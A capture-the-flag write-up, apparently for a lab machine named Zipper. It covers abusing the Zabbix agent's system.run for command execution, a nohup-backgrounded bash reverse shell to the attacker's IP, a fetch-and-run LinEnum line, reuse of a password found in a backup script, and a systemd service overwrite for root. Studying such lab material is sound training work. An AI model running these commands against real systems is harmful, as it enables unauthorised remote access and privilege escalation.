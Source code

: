 The command _agent.hostname_ shows the hostname of the server with the **Zabbix Agent** installed. There is another command called _system.run_ with which commands can be sent to the client if the agent configuration has _"EnableRemoteCommands"_ enabled:
```markdown
echo "system.run[ping -c 1 10.10.14.14]" | nc 172.17.0.1 10050
```

After sending this and by listening to incoming ICMP traffic, it sends a `ping` response back from the _zipper_ client and thus command execution is successful.

Trying to start a reverse shell:
```markdown
echo "system.run[bash -c 'bash -i >& /dev/tcp/10.10.14.14/9002 0>&1']" | nc 172.17.0.1 10050
```

The reverse shell session starts but exits seconds later, because **Zabbix Agent** runs the command and waits for around three seconds until it kills the connection.
This can be bypassed by using `nohup` and `&` to background the process:
```markdown
echo "system.run[bash -c 'nohup bash -i >& /dev/tcp/10.10.14.14/9002 0>&1 &']" | nc 172.17.0.1 10050
```

After sending the command, the listener on my IP and port 9002 starts a reverse shell on the box _zipper_ as the user _zabbix_.

## Privilege Escalation

There is one home directory of _zapper_ in which everyone has read access.
The file _/home/zapper/utils/backup.sh_ has the following content:
```markdown
# Quick script to backup all utilities in this folder to /backups

/usr/bin/7z a /backups/zapper_backup-$(/bin/date +%F).7z -pZippityDoDah /home/zapper/utils/* &>/dev/null
```

One of the parameters looks like a password and when switching users to _zapper_ via `su zapper`, the password _"ZippityDoDah"_ works and privileges got escalated to that user.

### Privilege Escalation to root

To get an attack surface, it is recommended to run any **Linux Enumeration script**:
```markdown
wget 10.10.14.14/LinEnum.sh | bash
```

The file _/home/zapper/utils/zabbix-service_ has the **SetUID bit** set and the user _zapper_ has write permissions to a **systemd timer**.
This configuration file is in _/etc/systemd/system/purge-backups.service_ and by changing the _ExecStart_ parameter to a executable that is controlled by us, we are able to run any code.

Inserting command in _/etc/systemd/system/purge-backups.service_:
```markdown
[Unit]
Description=Purge Backups (Script)
[Service]
ExecStart=/tmp/shell.sh
[Install]
WantedBy=purge-backups.timer
```
